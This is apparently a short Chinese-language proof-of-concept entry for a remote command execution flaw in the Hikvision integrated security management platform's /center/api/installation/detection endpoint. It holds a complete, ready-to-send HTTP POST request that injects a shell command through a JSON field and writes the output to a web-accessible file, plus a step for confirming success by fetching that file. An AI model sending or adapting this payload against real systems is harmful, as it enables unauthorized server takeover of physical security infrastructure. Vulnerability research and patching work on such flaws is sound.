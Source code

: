 # 描述

海康威视综合安防管理平台 /center/api/installation/detection 接口处存在远程命令执行漏洞，攻击者利用该漏洞可直接获取服务器权限。



### poc



```
POST /center/api/installation/detection HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/105.0.1249.139 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=UTF-8
 
{"type":"environment","operate":"","machines":{"id":  "$(id > /opt/hikvision/web/components/tomcat85linux64.1/webapps/vms/static/echo.txt)"}}
```

访问/vms/static/echo.txt

检查是否成功